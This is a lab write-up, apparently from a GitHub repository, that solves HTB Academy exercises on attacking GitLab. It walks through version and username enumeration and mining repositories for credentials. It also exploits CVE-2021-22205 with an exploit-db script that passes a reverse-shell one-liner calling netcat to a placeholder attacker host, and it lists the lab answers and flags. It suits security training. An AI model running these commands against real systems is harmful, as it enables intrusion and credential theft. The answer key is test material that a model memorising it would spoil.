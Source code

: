 # 🦊 GitLab Discovery & Enumeration

> **🎯 Objective:** Discover GitLab instances, enumerate version information, and extract sensitive data from repositories including credentials and configuration files.

## Overview

GitLab is a web-based Git repository hosting tool with wiki, issue tracking, and CI/CD capabilities. Often contains **sensitive data**, **hardcoded credentials**, **SSH keys**, and **configuration files** in public/internal repositories.

---

## HTB Academy Lab Solutions

### Lab 1: Version Enumeration
**Question:** "Enumerate the GitLab instance at http://gitlab.inlanefreight.local. What is the version number?"

**Target:** `gitlab.inlanefreight.local` (add to `/etc/hosts`)

#### Setup & Access
```bash
# Add vHost to hosts file
echo "10.129.201.88 gitlab.inlanefreight.local" >> /etc/hosts

# Access GitLab instance
# URL: http://gitlab.inlanefreight.local
```

#### Version Discovery Methods
1. **Register account** (if allowed) → `/help` page shows version
2. **Public projects exploration** → `/explore` for accessible repos
3. **Low-risk version detection** techniques

**Answer:** `13.10.2`

### Lab 2: Credential Discovery
**Question:** "Find the PostgreSQL database password in the example project."

#### Repository Investigation
1. **Browse public projects** via `/explore`
2. **Check "Inlanefreight dev" project** 
3. **Search through files** for configuration data
4. **Look for database configs** - config files, environment variables
5. **Check commit history** for accidentally committed credentials

**Found in:** Configuration file or environment setup  
**Answer:** `postgres`

---

## Discovery Techniques

### 1. GitLab Detection
```bash
# Standard GitLab indicators
- /users/sign_in (login page with GitLab logo)
- /explore (public projects page)
- /help (version info - requires auth)
```

### 2. User Enumeration
```bash
# Username enumeration via registration
# Try common usernames: admin, root, administrator
# Error: "Username is already taken" = valid user
```

### 3. Repository Mining
- **Public repos** via `/explore`
- **Search functionality** for keywords
- **File exploration** for sensitive data
- **Commit history** review

---

## Common Findings

**Sensitive Data Sources:**
- 🔑 **Configuration files** (database.yml, config.php)
- 🔐 **Environment variables** (.env files)
- 🗝️ **SSH private keys** 
- 📧 **API keys and tokens**
- 🔒 **Hardcoded passwords**

**Attack Vectors:**
- **Account registration** → internal repo access
- **Credential reuse** from found passwords
- **SSH key usage** for system access
- **API abuse** with extracted tokens

---

## HTB Academy Attacking Labs

### Lab 3: User Enumeration
**Question:** "Find another valid user on the target GitLab instance."

#### Method: Automated User Enumeration
```bash
# Download GitLab user enumeration script
searchsploit -m ruby/webapps/49821.sh

# Run user enumeration
./49821.sh --url http://gitlab.inlanefreight.local:8081 --userlist /opt/useful/SecLists/Usernames/cirt-default-usernames.txt | grep exists

# Result: [+] The username DEMO exists!
```

**Answer:** `DEMO`

### Lab 4: Authenticated RCE
**Question:** "Gain remote code execution on the GitLab instance. Submit the flag in the directory you land in."

#### Method: CVE-2021-22205 (ExifTool RCE)
```bash
# Download RCE exploit
searchsploit -m ruby/webapps/49951.py

# Start listener
nc -nvlp 9001

# Execute RCE (requires valid account: HTBAcademy:password123)
python3 49951.py -t http://gitlab.inlanefreight.local:8081 -u HTBAcademy -p password123 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc PWNIP PWNPO >/tmp/f'

# In reverse shell:
cat flag_gitlab.txt
```

**Answer:** `s3cure_y0ur_Rep0s!`

---

## Attack Summary

**Vulnerabilities:**
- **User Enumeration** - Registration page validation
- **CVE-2021-22205** - Authenticated RCE via ExifTool metadata
- **Self-Registration** - Often enabled for easier access

**Attack Chain:**
1. **User enumeration** → Find valid accounts
2. **Account creation** → Register if allowed  
3. **Repository mining** → Extract credentials/data
4. **RCE exploitation** → Authenticated command execution

**💡 Pro Tip:** Always check both public repos and try to register for internal access - many GitLab instances allow open registration revealing additional sensitive repositories. 
